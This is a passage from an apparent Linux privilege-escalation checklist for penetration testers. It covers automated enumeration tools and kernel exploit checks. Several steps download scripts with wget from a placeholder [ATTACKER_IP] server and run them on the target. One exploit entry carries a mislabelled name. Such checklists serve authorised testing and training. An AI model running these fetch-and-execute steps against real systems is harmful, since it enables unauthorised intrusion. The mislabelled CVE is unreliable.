 
## ☑️ Phase 11: Automated Enumeration Tools

### LinEnum
- [ ] **Download and execute**
  ```bash
  wget http://[ATTACKER_IP]:8000/LinEnum.sh
  chmod +x LinEnum.sh
  ./LinEnum.sh -t
  ```

### LinPEAS
- [ ] **Download and execute**
  ```bash
  wget http://[ATTACKER_IP]:8000/linpeas.sh
  chmod +x linpeas.sh
  ./linpeas.sh | tee linpeas_output.txt
  ```

### Linux Smart Enumeration (LSE)
- [ ] **Download and execute**
  ```bash
  wget http://[ATTACKER_IP]:8000/lse.sh
  chmod +x lse.sh
  ./lse.sh -l 2
  ```

### pspy (Process Monitoring)
- [ ] **Download and execute**
  ```bash
  wget http://[ATTACKER_IP]:8000/pspy64
  chmod +x pspy64
  ./pspy64
  ```

---

## ☑️ Phase 12: Kernel Exploits

### Kernel Information
- [ ] **Get kernel version**
  ```bash
  uname -r
  uname -a
  cat /proc/version
  ```
- [ ] **Research kernel exploits**
  ```bash
  # Use searchsploit locally: searchsploit linux kernel [version]
  ```

### Common Kernel Exploits to Check
- [ ] **Dirty COW (CVE-2016-5195)** - Kernel 2.6.22 < 4.8.3
- [ ] **Ubuntu 16.04 Overlayfs (CVE-2015-1328)**
- [ ] **CentOS/RHEL American Fuzzy Lop (CVE-2016-0728)**

---